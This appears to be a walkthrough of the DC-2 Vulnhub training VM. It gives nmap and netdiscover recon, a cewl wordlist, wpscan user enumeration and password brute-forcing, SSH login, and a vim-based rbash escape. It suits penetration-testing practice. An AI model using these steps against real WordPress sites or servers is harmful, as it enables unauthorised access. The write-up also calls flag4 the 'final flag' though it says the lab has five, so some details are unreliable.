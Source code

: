 # DC2 Vulnhub Walkthrough

#### Description

Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

As with the original DC-1, it's designed with beginners in mind.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

Just like with DC-1, there are five flags including the final flag.

And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.

#####In short, the only flag that really counts, is the final flag.


 # Scaning
  
  ### Reconnaissance 
  
Sudo netdiscover


![Screenshot from 2023-01-19 01-55-20](https://user-images.githubusercontent.com/108471951/213287257-c109721a-ccfa-4bd8-aea1-f42411a9f400.png)

Found the IP 192.168.0.131 


Firstly we have to identify the machine IP address using tool like NetDiscover 

### Nmap

nmap -sC -sV -p- 192.168.0.131


![Screenshot from 2023-01-19 01-57-13](https://user-images.githubusercontent.com/108471951/213287521-1a995297-b7d5-4679-a74d-2eb7047c0463.png)

so we can see it its a worpress site in nmap result.


#### http
#### Edit the /etc/host by giving the target ip and then visit the website.


 By searching the Ip in browser ,we can see in website footer its mentioned it is a wordpress website.

![Screenshot from 2023-01-16 17-00-08](https://user-images.githubusercontent.com/108471951/213288183-7462e484-ff1c-4f78-b14a-70669e3c415b.png)




#### In website there is page Flag and in that I found a Flag1


![Screenshot from 2023-01-16 17-01-22](https://user-images.githubusercontent.com/108471951/213289621-ccb28013-29c2-4dbf-a771-0626321c8454.png)


According to the hint flag1 we have to create a new passwd list pass.txt from website by CEWL tool

#### cewl http://dc-2/ -w pass.txt

![Screenshot from 2023-01-19 02-17-57](https://user-images.githubusercontent.com/108471951/213291277-1f52d69a-ceca-4e99-b21d-99d1a7fed806.png)


So as we know its a wordpress website obviously lets run WPSCAN tool 

wpscan --url http://dc2/ -e

![Screenshot from 2023-01-19 02-24-39](https://user-images.githubusercontent.com/108471951/213292503-55fb0cf3-8a42-4d33-887d-31cfed6f06ac.png)


After enumerateing we found the users [admin, jerry, tom]   


 ![Screenshot from 2023-01-19 02-27-22](https://user-images.githubusercontent.com/108471951/213293686-6845895d-6360-4c74-9e5b-fcf8365bc5ab.png)
 
 

Then make a File users.txt with the user names we found 

#### Bruteforce

wpscan --url http://dc2/ -U user.txt -P pass.txt


![Screenshot from 2023-01-19 23-25-28](https://user-images.githubusercontent.com/108471951/213522815-24944e6b-fb8e-4127-85d8-2a7f245128df.png)

Now we found the passwords for user jerry,tom so lets login to wordpress website using this credntials


http://dc2/wp-login.php

Now lets search for the flags 

After login using jerry's credentials I found a page called flag-2


![Screenshot from 2023-01-16 22-06-11](https://user-images.githubusercontent.com/108471951/213524065-7f9c3c4f-5397-4afe-bc39-ab1e8b06b5e5.png)


### Privilege Escalation


according to the hint flag2 there is another entry point. so as we know the SSH port 7744 open lets enter through it

After using tom credentials I got the Accese






##### shh tom@192.168.0.131 -p 7744

![Screenshot from 2023-01-19 23-36-35](https://user-images.githubusercontent.com/108471951/213525130-600071c3-76db-411b-ac89-66cc4bb0800f.png)

we can see ID command not worked and its restried -rbash shell we have to bypass it 

So I used vim trick 

    run vi

    :set shell=/bin/sh       
    
    
  ![Screenshot from 2023-01-19 23-58-23](https://user-images.githubusercontent.com/108471951/213537479-15721eaf-8f9d-462e-add4-70688078789d.png)

    
    

 :shell              
 
 

   ![Screenshot from 2023-01-19 23-58-42](https://user-images.githubusercontent.com/108471951/213537540-c5e80d2b-c506-4639-8a75-742a0a654dba.png)

    
   



now its given us a shell but some commands are not working like id,cat. This could mean that /bin/sh might be missing from the PATH.   

so lets fix it by command 


![Screenshot from 2023-01-20 00-40-13](https://user-images.githubusercontent.com/108471951/213538403-3e9adbb4-7514-4c9d-892f-4a5576381e11.png)




export PATH=/bin:/usr/bin

![Screenshot from 2023-01-20 00-03-58](https://user-images.githubusercontent.com/108471951/213532707-6a2699b5-49f8-4c9b-be87-8ab8033929a5.png)

ls
cat flag3.txt

![Screenshot from 2023-01-20 00-16-26](https://user-images.githubusercontent.com/108471951/213533103-6c4b779a-15d7-4854-b21e-aa01d8d145bc.png)


we found flag3 according to the hint we need to switch user from tom to jerry since we have jerry password we can easily switch to jerry.







cd home

ls


![Screenshot from 2023-01-20 00-29-14](https://user-images.githubusercontent.com/108471951/213535545-d71b9554-e180-435a-9b64-f9029207b3bd.png)


we found jerry.







cd jerry

ls

cat flag4.txt


![Screenshot from 2023-01-20 00-27-29](https://user-images.githubusercontent.com/108471951/213536148-d1b709b4-b8c1-4944-ade8-e1030060b911.png)

succesfully we have found the final flag.




@robinpaul
#robinpaul



